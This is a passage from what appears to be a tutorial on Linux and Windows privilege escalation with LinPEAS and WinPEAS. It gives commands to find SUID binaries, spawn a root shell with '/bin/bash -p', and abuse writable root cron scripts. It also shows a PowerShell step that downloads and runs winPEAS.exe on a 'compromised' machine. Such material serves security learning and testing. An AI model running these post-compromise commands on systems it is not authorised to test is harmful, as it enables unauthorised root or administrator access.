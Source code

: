 🔹 **Scenario 1: Exploitable SUID Binary**

```bash
find / -perm -4000 -type f 2>/dev/null
```

🔹 If `linpeas.sh` finds a **vulnerable SUID binary**, you can exploit it:

```bash
./vulnerable_binary
/bin/bash -p  # Gain root shell
```

🔹 **Scenario 2: Misconfigured Cron Jobs**

```bash
cat /etc/crontab
```

✅ If a script is **executed as root** but **writable by a low-privileged user**, you can modify it to **spawn a root shell**!

---

# **🔵 WinPEAS – Windows Privilege Escalation**

## **📌 What does it do?**

WinPEAS scans a **Windows system** for **security misconfigurations** and **privilege escalation opportunities**.

🔹 **Example Exploitable Findings:**  
✔️ Weak **passwords & hashes** stored in **registry**  
✔️ Misconfigured **service permissions**  
✔️ **DLL hijacking opportunities**  
✔️ **Unquoted service paths**  
✔️ **Users with administrator privileges**

---

## **📌 How to Use WinPEAS?**

### **Step 1: Download WinPEAS**

🔹 On a **compromised Windows machine**, download **WinPEAS.exe**:

```powershell
Invoke-WebRequest -Uri "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe" -OutFile "winPEAS.exe"
```

### **Step 2: Run WinPEAS**

```powershell
.\winPEAS.exe
```

